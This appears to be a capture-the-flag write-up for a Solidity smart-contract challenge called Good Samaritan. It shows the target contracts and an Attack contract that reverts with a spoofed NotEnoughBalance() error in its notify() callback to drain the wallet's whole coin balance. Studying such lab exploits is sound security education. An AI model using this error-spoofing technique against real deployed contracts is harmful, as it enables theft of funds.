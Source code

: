 # Challenge 27

<img src="./images/BigLevel27.svg" alt="27">

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts-08/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns(bool enoughBalance){
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10**6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if(amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if(dest_.isContract()) {
                // notify contract
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if(msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}
```

## Challenge :

> This instance represents a Good Samaritan that is wealthy and ready to donate some coins to anyone requesting it.

> Would you be able to drain all the balance from his Wallet?

> Things that might help:

> - [Solidity Custom Errors](https://blog.soliditylang.org/2021/04/21/custom-errors/)

## Solution : Challenge 27

1. Here's the Code First `requestDonation` and it will run the `donate10` so the it will check if the coin balance is `< 10` then revert other wise transfer to destination and which takes `dest_` and `amount` which will condition checking and if successful then it will trigger `INotifyable` interfaces `notify()` function otherwise revert.

2. Here's The Exploit we will `donate10` and then we will check if `dest_` is contract or not then it will fire up the function `notify()` but before that we will make `NotEnoughBalance()` and this will trigger the `else` block of the transfer in Coin. Here's the Code.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.16;

error NotEnoughBalance();

contract Attack {

    GoodSamaritan goodsamaritan  = GoodSamaritan("YOUR_INSTANCE_ADDRESS");

    function solve() external {
        goodsamaritan.requestDonation();
    }

    function notify(uint256 amount) external pure {
        if (amount <= 10) {
            revert NotEnoughBalance();
        }
    }
}
```

now call the `solve()` function, and submit the instance your level will be cleared🎉.
